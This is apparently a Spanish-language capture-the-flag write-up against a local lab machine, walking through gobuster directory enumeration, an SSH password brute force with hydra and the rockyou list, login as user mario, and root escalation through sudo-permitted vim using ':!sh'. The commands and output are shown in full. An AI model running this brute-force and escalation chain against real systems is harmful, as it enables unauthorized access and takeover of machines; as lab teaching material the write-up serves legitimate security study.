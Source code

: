 ```bash
  ❯❯ /home/v3ctr4x : gobuster dir -u http://172.19.0.2 -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x .php,-sh,.py,.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.19.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,-sh,py,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/secret.php           (Status: 200) [Size: 927]
/.php                 (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 1038215 / 1038220 (100.00%)
===============================================================
Finished
===============================================================
```

tenemos un secret.php, vamos a ver que hay dentro de ese php

![[Pasted image 20250506121627.png]]

Puede ser uno de los usuarios que tiene el sistema para ssh, vamos a intentar con rockyou en hydra para sacar la contraseña al usuario

```bash

  ❯❯ /home/v3ctr4x : hydra -l mario -P /home/v3ctr4x/Descargas/rockyou.txt ssh://172.19.0.2 -t 10
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-05-06 12:20:33
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 10 tasks per 1 server, overall 10 tasks, 14344398 login tries (l:1/p:14344398), ~1434440 tries per task
[DATA] attacking ssh://172.19.0.2:22/
[22][ssh] host: 172.19.0.2   login: mario   password: chocolate
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-05-06 12:20:45
```

ya podemos hacer ssh dentro de la maquina

```bash

  ❯❯ /home/v3ctr4x : ssh mario@172.19.0.2
mario@172.19.0.2s password: 
Linux 65002dba0472 6.14.4-arch1-2 #1 SMP PREEMPT_DYNAMIC Tue, 29 Apr 2025 09:23:13 +0000 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue May  6 10:23:57 2025 from 172.19.0.1
mario@65002dba0472:~$ sudo -l
[sudo] password for mario: 
Matching Defaults entries for mario on 65002dba0472:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on 65002dba0472:
    (ALL) /usr/bin/vim
mario@65002dba0472:~$    
```

Tenemos un vector de ataque, ahora hay que aprovecharlo

```bash
:!sh
# whoami
root
# 
```

Dentro de vim ejecutandolo como sudo obtenemos una shell de root, esto es debido a que cuando ejecutamos vim lo hacemos con sudo, por lo que si dentro de vim ejecutamos una shell nos haremos superusuario
